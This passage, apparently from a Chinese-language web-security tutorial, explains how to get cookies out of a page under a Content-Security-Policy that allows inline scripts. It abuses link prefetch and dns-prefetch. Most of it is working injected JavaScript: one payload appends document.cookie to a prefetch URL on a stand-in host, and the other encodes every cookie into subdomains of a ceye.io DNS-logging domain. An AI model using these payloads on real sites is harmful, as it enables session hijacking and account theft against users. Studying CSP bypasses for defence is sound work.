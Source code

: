 下面就说下几种可以实现预加载的方式

**prefetch**

一般是通过 link 标签来实现预加载的指

`<link rel="prefetch" href="http://xxx.com">`



但是在标签内的话是没办法打到 Cookie 的，但如果我们可以执行内联 JS，情况就不一样了

Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline';



如果 CSP 头是这样的，我们可以通过利用 JS 创建 link 标签的方式打到 Cookie

```javascript


<script>

var i=document.createElement('link');

i.setAttribute('rel','prefetch');

i.setAttribute('href','http://xxx.com?'+document.cookie);

document.head.appendChild(i);

</script>
```







**dns-prefetch**

dns-prefetch(DNS预解析) 允许浏览器在后台提前将资源的域名转换为 IP 地址，当用户访问该资源时就可以加快 DNS 解析。

`<link rel="dns-prefetch" href="http://xxx.com">`

同样想要在

Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline';



这种情况下收获 Cookie 的话

```javascript


<script>

	 dcl = document.cookie.split(";");

	 n0 = document.getElementsByTagName("HEAD")[0];



	 for (var i=0; i<dcl.length;i++)

	 {

	       console.log(dcl[i]);

	      n0.innerHTML = n0.innerHTML + "<link rel=\"dns-prefetch\" href=\"//" + escape(dcl[i].replace(/\//g, "-")).replace(/%/g, "_") + '.' + location.hostname.replace(/\./g, "-") +  ".wb7g7z.ceye.io\">";

	}
```
